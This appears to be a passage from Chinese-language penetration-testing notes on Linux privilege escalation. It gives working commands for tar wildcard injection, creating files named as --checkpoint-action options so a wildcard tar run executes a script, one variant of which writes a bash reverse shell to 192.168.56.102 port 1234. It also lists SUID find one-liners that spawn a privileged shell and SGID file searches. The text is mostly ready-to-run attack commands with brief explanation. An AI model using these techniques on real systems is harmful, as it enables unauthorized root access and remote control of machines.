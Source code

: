 使用条件：
```sh
带有S权限tar命令的执行方式为使用通配符指定文件：
/bin/tar cf 压缩包文件名.tar *
```
利用命令：
```sh
echo "/bin/bash" > upfine.sh
echo "" > "--checkpoint-action=exec=sh upfine.sh"
echo "" > --checkpoint=1
```

利用2：
```sh
cd /home/kali/test
echo 'bash -i >&/dev/tcp/192.168.56.102/1234 0>&1' > upfine.sh
echo "" > "--checkpoint-action=exec=bash upfine.sh"
echo "" > "--checkpoint=1"

tar -cvf revshell.tar ./upfine.sh ./'--checkpoint=1' ./'--checkpoint-action=exec=bash upfine.sh'
```
命令说明：

- 第一步，创建 upfine.sh 文件并写入 /bin/bash，执行后会启动root权限的bash shell
- 第二步，`echo "">"--checkpoint-action=exec=sh upfine.sh"`：创建一个文件名是`--checkpoint-action=exec=sh upfine.sh`的空文件
- 第三步，`echo "" > --checkpoint=1`：创建一个文件名是`--checkpoint=1`的空文件
- 第四步，执行内部调用了 tar 命令的命令

利用原理:
	- `-checkpoint`选项：用于在归档过程中显示进度
		- `--checkpoint=1`：每处理 1 个文件后执行`checkpoint`操作
	- `--checkpoint-action`参数：允许使用`-checkpoint`选项时执行一个命令
		- `--checkpoint-action=exec=sh upfine.sh`：执行`sh upfine.sh`这个命令，触发提权脚本。
	- 执行内部调用了 tar 命令的命令，可类似于 `tar -cvf archive.tar *`
	- 当执行 tar 命令时，通配符`*`会被展开为当前目录下的所有文件，包括之前创建的 `--checkpoint-action=exec=sh upfine.sh` 和 `--checkpoint=1` 这两个文件。此时，tar 会将这两个文件名作为参数处理，运行之前创建的 upfine.sh 脚本，从而启动 bash shell，获得 root 权限。
	

### find提权

```
./find . -exec /bin/sh -p \; -quit

find . -exec whoami \;
find . -exec '/bin/bash' -p \;
```

## 6.9、SGID提权

文件搜索

```
find / -perm -g=s -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
```
